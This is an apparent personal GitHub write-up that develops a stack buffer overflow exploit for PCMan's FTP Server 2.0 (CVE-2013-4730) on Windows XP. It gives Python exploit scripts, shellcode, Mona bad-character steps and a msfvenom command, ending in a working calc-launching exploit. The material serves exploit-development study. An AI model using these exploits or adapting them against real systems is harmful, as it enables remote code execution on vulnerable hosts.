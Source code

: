 # PCMan's FTP Server 2.0 - Win XP SP3 - Buffer Overflow

-   cve details: [CVE-2013-4730](https://nvd.nist.gov/vuln/detail/CVE-2013-4730)
-   Target: PCMan's FTP Server 2.0
-   Platform : windows xp- SP3 - Build 2600
-   Exploit : Python 2.7
-   debugger: Immunity Debugger

I run target and check it. it's a program for use FTP.I open a .py file and in first time,I need a socket for connection with this program.

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

exploit="A"*100

s.send(exploit)
print s.recv(1024)
s.close()
```

After run exploit.py ,program get my buffer:

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/1.JPG)


When Buffer increase to 3000, program crash and EIP chang to 41414141 :

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/2.JPG)


Now I run Immunity and use Mona for detecte exactly location of overflow . For this I run !mona pc 3000:

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/3.JPG)

After create pattern ,I copy Ascii section in my exploit (instead of "A"*3000) and run target in Immunity and run exploit.py . Target crash and I copy EIP to !mona po EIP:


![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/4.JPG)

Buffer is 2011 and I need check it for this my exploit is: 

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

exploit="A"*2011 + "BBBB" + "C"*100

s.send(exploit)
print s.recv(1024)
s.close()
```

everything is OK. EIP=42424242 and after it we have in Stack. 

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/5.JPG)

Now I need add shellcode and find address for "jmp esp" to point stack. My shellcode is run calc and its OK and for address I use MONA:

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/6.JPG)

after find jump to stack, Now I complet my exploit:

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

exploit="A"*2011 + "\xd9\x2f\xe3\x74" + "\x90"*8+("\x31\xc9\xda\xd4\xb1\x33\xbd\xec\x71\x94\xde\xd9\x74\x24\xf4"
"\x5f\x31\x6f\x15\x03\x6f\x15\x83\x2b\x75\x76\x2b\x4f\x9e\xff"
"\xd4\xaf\x5f\x60\x5c\x4a\x6e\xb2\x3a\x1f\xc3\x02\x48\x4d\xe8"
"\xe9\x1c\x65\x7b\x9f\x88\x8a\xcc\x2a\xef\xa5\xcd\x9a\x2f\x69"
"\x0d\xbc\xd3\x73\x42\x1e\xed\xbc\x97\x5f\x2a\xa0\x58\x0d\xe3"
"\xaf\xcb\xa2\x80\xed\xd7\xc3\x46\x7a\x67\xbc\xe3\xbc\x1c\x76"
"\xed\xec\x8d\x0d\xa5\x14\xa5\x4a\x16\x25\x6a\x89\x6a\x6c\x07"
"\x7a\x18\x6f\xc1\xb2\xe1\x5e\x2d\x18\xdc\x6f\xa0\x60\x18\x57"
"\x5b\x17\x52\xa4\xe6\x20\xa1\xd7\x3c\xa4\x34\x7f\xb6\x1e\x9d"
"\x7e\x1b\xf8\x56\x8c\xd0\x8e\x31\x90\xe7\x43\x4a\xac\x6c\x62"
"\x9d\x25\x36\x41\x39\x6e\xec\xe8\x18\xca\x43\x14\x7a\xb2\x3c"
"\xb0\xf0\x50\x28\xc2\x5a\x3e\xaf\x46\xe1\x07\xaf\x58\xea\x27"
"\xd8\x69\x61\xa8\x9f\x75\xa0\x8d\x40\x94\x61\xfb\xe8\x01\xe0"
"\x46\x75\xb2\xde\x84\x80\x31\xeb\x74\x77\x29\x9e\x71\x33\xed"
"\x72\x0b\x2c\x98\x74\xb8\x4d\x89\x16\x5f\xde\x51\xf7\xfa\x66"
"\xf3\x07")


s.send(exploit)
print s.recv(1024)
s.close()
```

After run exploit on the target , Program only crash and it not run calc. I check it and I find problem.In my shellcode , there are some bad characters.
Badcharacters are some charactesr ,because broken shellcode. This characters is defferent for evry program. For example,in the bruteforce program,our input
like this: user:pass , program read input and split user and password with ":". Now if we exploit this program and in our shellcode have ":",shellcode broken
and don't run. For solve this problem we nhave to steps:1- detect Badcharacters ,2- remove it.For first step I use Mona and second step use msfvenum.

For detect Badcharacters have 2 method:\
1- manually\
2- Automatically.\
In manually ,We create all 256 characters and add to exploit and Run it and check in stack. And in Automatically method , using tools like Mona.\
I use Mona for this stage. For detect Badcharacters with Mona,we are several steps:\
1- Create a folder like Mona and run this Command: !mona config -set workingfolder c:\mona\%p   (this step optionally. %p use for create automatically folder by project name)\
2- Create all 256 Byte: !mona bytearray (its create in workingfolder c:/mona/projectname)\
3- compare bytearray file with program buffer : !mona compare -f C:\mona\PCManFTPD2\bytearray.bin -a stack_address\
4- Mona check badcharacters and show.\
5- remove badcharacters from bytearray and create new witout it: !mona bytearray -cpb 'Badchar'\
6- go to steps 3


![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/7.JPG)

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/8.JPG)

now I need change my exploit. first copy it to c:/mona and change it to :

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))


badchar=open('PCManFTPD2/bytearray.bin','rb').read()
exploit= "USER: "+"A"*2005 + "\xd9\x2f\xe3\x74" + "\x90"*8 + badchar


s.send(exploit)
print s.recv(1024)
s.close()


```

Now run target in Immunity and run exploit.py. after crash , I use compare command. for this command I need address (stack address)


![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/9.JPG)


Now I run compare command ,and Mona detect badchar : 

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/10.JPG)


00 is badcharacters. Now I create new Bytearray without this char:

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/11.JPG)


I repeat this steps and for some case Mona don't work correctlly. For this reason, I use manully method. I run exploit and check characters without
Mona. If char is valid in buffer is ok but if char change to 0000 or corrupt buffer it's badchar. I find \x00\x0a\x0d\xff.

Now we need a shellcode without this characters. I use msfvenum.

```
msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe  -f c -b '\x00\x0a\x0d\xff'
```

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/12.JPG)

Now all thing is OK. I change exploit to :

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))

exploit="A"*2011 + "\xd9\x2f\xe3\x74" + "\x90"*8+(\xbb\xb2\x24\x22\xfb\xdb\xd2\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x31\x31\x5a\x13\x83\xc2\x04\x03\x5a\xbd\xc6\xd7\x07\x29\x84"
"\x18\xf8\xa9\xe9\x91\x1d\x98\x29\xc5\x56\x8a\x99\x8d\x3b\x26"
"\x51\xc3\xaf\xbd\x17\xcc\xc0\x76\x9d\x2a\xee\x87\x8e\x0f\x71"
"\x0b\xcd\x43\x51\x32\x1e\x96\x90\x73\x43\x5b\xc0\x2c\x0f\xce"
"\xf5\x59\x45\xd3\x7e\x11\x4b\x53\x62\xe1\x6a\x72\x35\x7a\x35"
"\x54\xb7\xaf\x4d\xdd\xaf\xac\x68\x97\x44\x06\x06\x26\x8d\x57"
"\xe7\x85\xf0\x58\x1a\xd7\x35\x5e\xc5\xa2\x4f\x9d\x78\xb5\x8b"
"\xdc\xa6\x30\x08\x46\x2c\xe2\xf4\x77\xe1\x75\x7e\x7b\x4e\xf1"
"\xd8\x9f\x51\xd6\x52\x9b\xda\xd9\xb4\x2a\x98\xfd\x10\x77\x7a"
"\x9f\x01\xdd\x2d\xa0\x52\xbe\x92\x04\x18\x52\xc6\x34\x43\x38"
"\x19\xca\xf9\x0e\x19\xd4\x01\x3e\x72\xe5\x8a\xd1\x05\xfa\x58"
"\x96\xfa\xb0\xc1\xbe\x92\x1c\x90\x83\xfe\x9e\x4e\xc7\x06\x1d"
"\x7b\xb7\xfc\x3d\x0e\xb2\xb9\xf9\xe2\xce\xd2\x6f\x05\x7d\xd2"
"\xa5\x66\xe0\x40\x25\x47\x87\xe0\xcc\x97")


s.send(exploit)
print s.recv(1024)
s.close()
```

After run exploit.py, It don't run calc.exe. I check it and understand my buffer is small for shellcode and shellcode is broken.
for solve this problem I change junk and shellcode and after EIP I use some command to go my shellcode.

junk + EIP + NOP + Shellcode -> NOP + shellcode + EIP + NOP + jumptoshellcode

For this only need jumptoshellcode and implement it I use this command "sub    esp,0x5e " and "jmp    esp". But here is I have two steps:\
1- change this Assambly to opcode(x86) -> use Immunity and add this to a line or use this [site](https://defuse.ca/online-x86-assembler.htm)\
2- How many ,I need to recive my shellcode. -> I use manually and check it.

In the final,My exploit is :

```
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",21))


shellcode=("\xbf\x9f\x6d\xb4\x7d\xda\xcb\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1"
"\x31\x31\x7a\x13\x03\x7a\x13\x83\xea\x63\x8f\x41\x81\x73\xd2"
"\xaa\x7a\x83\xb3\x23\x9f\xb2\xf3\x50\xeb\xe4\xc3\x13\xb9\x08"
"\xaf\x76\x2a\x9b\xdd\x5e\x5d\x2c\x6b\xb9\x50\xad\xc0\xf9\xf3"
"\x2d\x1b\x2e\xd4\x0c\xd4\x23\x15\x49\x09\xc9\x47\x02\x45\x7c"
"\x78\x27\x13\xbd\xf3\x7b\xb5\xc5\xe0\xcb\xb4\xe4\xb6\x40\xef"
"\x26\x38\x85\x9b\x6e\x22\xca\xa6\x39\xd9\x38\x5c\xb8\x0b\x71"
"\x9d\x17\x72\xbe\x6c\x69\xb2\x78\x8f\x1c\xca\x7b\x32\x27\x09"
"\x06\xe8\xa2\x8a\xa0\x7b\x14\x77\x51\xaf\xc3\xfc\x5d\x04\x87"
"\x5b\x41\x9b\x44\xd0\x7d\x10\x6b\x37\xf4\x62\x48\x93\x5d\x30"
"\xf1\x82\x3b\x97\x0e\xd4\xe4\x48\xab\x9e\x08\x9c\xc6\xfc\x46"
"\x63\x54\x7b\x24\x63\x66\x84\x18\x0c\x57\x0f\xf7\x4b\x68\xda"
"\xbc\xa4\x22\x47\x94\x2c\xeb\x1d\xa5\x30\x0c\xc8\xe9\x4c\x8f"
"\xf9\x91\xaa\x8f\x8b\x94\xf7\x17\x67\xe4\x68\xf2\x87\x5b\x88"
"\xd7\xeb\x3a\x1a\xbb\xc5\xd9\x9a\x5e\x1a")

numberof=2011-len(shellcode)
jumptoshellcode="\x83\xec\x5e\x83\xec\x5e\x83\xec\x5e\x83\xec\x5e\xff\xe4\x90\x90"
exploit= numberof * '\x90' + shellcode + "\xd9\x2f\xe3\x74" + "\x90"*8 + jumptoshellcode



s.send(exploit)
print s.recv(1024)
s.close()

```
![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2013-4730-BOF/images/13.JPG)
